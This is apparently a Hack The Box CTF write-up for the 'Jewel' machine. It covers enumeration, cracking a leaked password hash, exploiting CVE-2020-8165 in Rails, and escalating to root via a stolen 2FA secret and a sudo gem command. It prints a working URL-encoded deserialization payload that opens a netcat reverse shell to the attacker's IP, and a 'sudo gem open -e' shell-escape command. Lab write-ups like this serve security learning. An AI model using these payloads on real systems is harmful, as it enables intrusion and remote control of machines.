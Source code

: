 ```yaml
---
published: true
---
```

<h1>Scanning</h1>

<img src="https://i.ibb.co/dbW2t85/Screenshot-from-2021-02-13-17-25-59.png" alt="Screenshot-from-2021-02-13-17-25-59" border="0"> 

<p>We found port 22 for ssh and port 8000,8080 for HTTP where port 8000</p>

<p>Let`s add jewel.htb in our hosts </p>

<img src="https://i.ibb.co/5v1Xjw8/Screenshot-from-2021-02-13-17-54-04.png" alt="Screenshot-from-2021-02-13-17-54-04" border="0">
<h2>Enumeration</h2>
<h2>Port 8000</h2>
<img src="https://i.ibb.co/kxyH5Kj/Screenshot-from-2021-02-13-18-01-04.png" alt="Screenshot-from-2021-02-13-18-01-04" border="0">

<h2>port 8080</h2>
<img src="https://i.ibb.co/37D1z6D/Screenshot-from-2021-02-13-18-01-35.png" alt="Screenshot-from-2021-02-13-18-01-35" border="0">

<p>Let`s enumerate the BLOG!</p>
<img src="https://i.ibb.co/FmT1Ppz/Bill.png" alt="Bill" border="0">
<img src="https://i.ibb.co/s9vmvfL/Jennifer.png" alt="Jennifer" border="0">
<p>We found 2 user Bill,Jennifer </p>

<p>Let`s enumerate the REPO </p>
<img src="https://i.ibb.co/0fNWrZK/Screenshot-from-2021-02-13-18-15-14.png" alt="Screenshot-from-2021-02-13-18-15-14" border="0">

<p>After some enumerating i found SQL file "bd.sql" and i got some hashes</p>
<img src="https://i.ibb.co/d08S7kv/Screenshot-from-2021-02-13-18-18-20.png" alt="Screenshot-from-2021-02-13-18-18-20" border="0">

<p>I cracked Bill hash "spongebob" but couldn`t login, let`s countinue enumeration</p>
<img src="https://i.ibb.co/JKpyJ9q/Screenshot-from-2021-02-13-18-27-25.png" alt="Screenshot-from-2021-02-13-18-27-25" border="0">
<h2>User flag</h2>
<p>It`s using ruby '2.5.5' , let`s search for an exploit</p>
<p>After searching i found a CVE</p><a href="https://github.com/masahiro331/CVE-2020-8165">CVE-2020-8165</a> 
<p>I tested all the fields and i found that the vulnerable input in updating user fields</p>
<p>Payload <blockquote>%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T</blockquote></p>
<p>Change the ip to your ip</p>
<img src="https://i.ibb.co/52wq0rs/web10.png" alt="web10" border="0">
<img src="https://i.ibb.co/GRGjx1b/cmd2.jpg" alt="cmd2" border="0">
<pre>
<span class="k">$ su bill</span>
<span class="na">Password: </span>
<span class="k">bill@jewel:~$ whoami</span>
<span class="na">bill</span>
                                                                </pre>
<p>The password is "spongebob" we cracked it,if you remember </p>                                                     <p>Let`s upgrade our shell </p>
<img src="https://i.ibb.co/wJVwsXx/ssh.jpg" alt="ssh" border="0">
<img src="https://i.ibb.co/cCN66PD/ssshhs1.jpg" alt="ssshhs1" border="0">
<h2>Root flag</h2>
<p>I listed the directory as 1st step of enumeration and i found Google auth, it look like the admin use 2FA</p>
<img src="https://i.ibb.co/NydTvQn/Google-autyh.jpg" alt="Google-autyh" border="0">
<p>Let`s get the secret key and use google auth</p>
<img src="https://i.ibb.co/RghXZSW/cmd10.jpg" alt="cmd10" border="0">
<img src="https://i.ibb.co/GTBN0Wz/auth-1.jpg" alt="auth-1" border="0">
<img src="https://i.ibb.co/QcTKwXY/auth-2.jpg" alt="auth-2" border="0">
<p>Let`s generate the OTP</p>
<img src="https://i.ibb.co/89GyndH/web14.jpg" alt="web14" border="0">
<p>Let`s use the OTP</p>
<img src="https://i.ibb.co/MM9SNFy/cmd11.jpg" alt="cmd11" border="0">
<p>Looks like something wrong.</p>
<p>This step made my mind blow off , i searched a lot and asked for a nudge at HTB discord server</p>
<p>Someone told me it`s about sync with the victim box, let`s see</p>
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">.
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">
<p>Timezone is different, let`s set our machine to the victim timezone</p>
<img src="https://i.ibb.co/PxmmR2H/cmd163.jpg" alt="cmd163" border="0">
<img src="https://i.ibb.co/Mn5tVyQ/cmd1645.jpg" alt="cmd1645" border="0">
<p>Let`s try to escalate privilege again</p>
<img src="https://i.ibb.co/1M7W8dv/priv.jpg" alt="priv" border="0">
<p>Bam ! , it`s working</p>
<pre>
<span class="k">sudo gem open -e "/bin/sh -c /bin/sh" rdoc</span>
                                                                </pre>
<img src="https://i.ibb.co/JzTS9cn/cmd19.jpg" alt="cmd19" border="0">

<p>Thanks for reading i hope you enjoyed </p>
